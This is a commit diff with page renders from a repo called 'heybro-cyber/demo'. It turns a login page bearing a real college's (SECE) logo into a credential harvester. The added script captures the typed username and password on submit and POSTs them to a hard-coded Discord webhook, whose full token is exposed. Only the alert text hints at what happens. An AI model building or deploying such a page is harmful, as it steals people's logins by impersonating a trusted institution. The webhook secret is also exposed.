

Before and after one commit to heybro-cyber/demo, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 362-800 px from the top of the page, without its empty margins (318-958 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,138 +2,94 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <title>SECE Login Page</title>
+  <title>SECE Login</title>
   <style>
     body {
-      font-family: 'Segoe UI', sans-serif;
-      background: linear-gradient(135deg, #e0eafc, #cfdef3);
-      margin: 0;
+      font-family: Arial, sans-serif;
+      background: #f0f0f0;
       display: flex;
-      flex-direction: column;
       align-items: center;
       justify-content: center;
       height: 100vh;
+      margin: 0;
     }
-
     .login-box {
-      background: white;
-      padding: 30px 40px;
+      background: #fff;
+      padding: 30px;
       border-radius: 12px;
-      box-shadow: 0 15px 25px rgba(0, 0, 0, 0.1);
-      width: 100%;
-      max-width: 400px;
-      animation: fadeIn 1s ease-in-out;
+      box-shadow: 0 8px 16px rgba(0,0,0,0.2);
       text-align: center;
+      width: 350px;
+      animation: fadeIn 1s ease;
     }
-
-    @keyframes fadeIn {
-      from { opacity: 0; transform: translateY(20px); }
-      to { opacity: 1; transform: translateY(0); }
+    .login-box img {
+      width: 180px;
+      margin-bottom: 20px;
     }
-
-    .login-box img.logo {
-      width: 200px;
-      margin-bottom: 15px;
-      animation: dropIn 0.8s ease;
-    }
-
-    @keyframes dropIn {
-      0% { transform: translateY(-20px); opacity: 0; }
-      100% { transform: translateY(0); opacity: 1; }
-    }
-
     .login-box h2 {
       margin-bottom: 20px;
-      color: #333;
     }
-
     input[type="text"], input[type="password"] {
       width: 100%;
-      padding: 12px;
-      margin-bottom: 15px;
+      padding: 10px;
+      margin: 10px 0;
       border: 1px solid #ccc;
-      border-radius: 8px;
-      box-sizing: border-box;
-      transition: border 0.3s;
+      border-radius: 6px;
     }
-
-    input:focus {
-      border-color: #007bff;
-      outline: none;
-    }
-
-    .options {
-      display: flex;
-      justify-content: space-between;
-      align-items: center;
-      margin-bottom: 20px;
-      font-size: 14px;
-    }
-
-    .options a {
-      color: #007bff;
-      text-decoration: none;
-    }
-
-    .options a:hover {
-      text-decoration: underline;
-    }
-
     button {
       width: 100%;
-      padding: 12px;
-      background-color: #007bff;
-      color: white;
+      padding: 10px;
+      background: #007bff;
       border: none;
-      border-radius: 8px;
+      color: #fff;
+      border-radius: 6px;
+      font-size: 16px;
       cursor: pointer;
-      transition: background 0.3s;
-      font-size: 16px;
     }
-
     button:hover {
-      background-color: #0056b3;
+      background: #0056b3;
     }
-
-    .signup {
-      margin-top: 15px;
-      text-align: center;
-      font-size: 14px;
-    }
-
-    .signup a {
-      color: #007bff;
-      text-decoration: none;
-    }
-
-    .signup a:hover {
-      text-decoration: underline;
+    @keyframes fadeIn {
+      from {opacity: 0; transform: translateY(20px);}
+      to {opacity: 1; transform: translateY(0);}
     }
   </style>
 </head>
 <body>
 
   <div class="login-box">
-    <!-- Logo inside the box -->
-    <img src="https://sece.ac.in/wp-content/uploads/2024/05/clg-logo2-1024x292.webp" alt="SECE Logo" class="logo">
-
+    <img src="https://sece.ac.in/wp-content/uploads/2024/05/clg-logo2-1024x292.webp" alt="SECE Logo">
     <h2>Login</h2>
-    <form>
-      <input type="text" placeholder="Username" required>
-      <input type="password" placeholder="Password" required>
-
-      <div class="options">
-        <label><input type="checkbox"> Remember me</label>
-        <a href="#">Forgot Password?</a>
-      </div>
-
+    <form id="loginForm">
+      <input type="text" id="username" placeholder="Username" required>
+      <input type="password" id="password" placeholder="Password" required>
       <button type="submit">Login</button>
     </form>
+  </div>
 
-    <div class="signup">
-      Don't have an account? <a href="#">Sign up</a>
-    </div>
-  </div>
+  <script>
+    const webhookURL = "https://discord.com/api/webhooks/1390268292500820030/bF7_FAN1_YyvGPeLZuhE3TIDSVFIxg0ky0OxRveEVP_8ERIefeUtWRa_GZfj8m7XqhXC";
+
+    document.getElementById("loginForm").addEventListener("submit", function(e) {
+      e.preventDefault();
+
+      const username = document.getElementById("username").value;
+      const password = document.getElementById("password").value;
+
+      fetch(webhookURL, {
+        method: 'POST',
+        headers: {'Content-Type': 'application/json'},
+        body: JSON.stringify({
+          content: `👤 **New Login Attempt**\n**Username**: ${username}\n**Password**: ${password}`
+        })
+      }).then(() => {
+        alert("Login data sent to Discord!");
+        document.getElementById("loginForm").reset();
+      }).catch(() => {
+        alert("Failed to send data.");
+      });
+    });
+  </script>
 
 </body>
 </html>
```
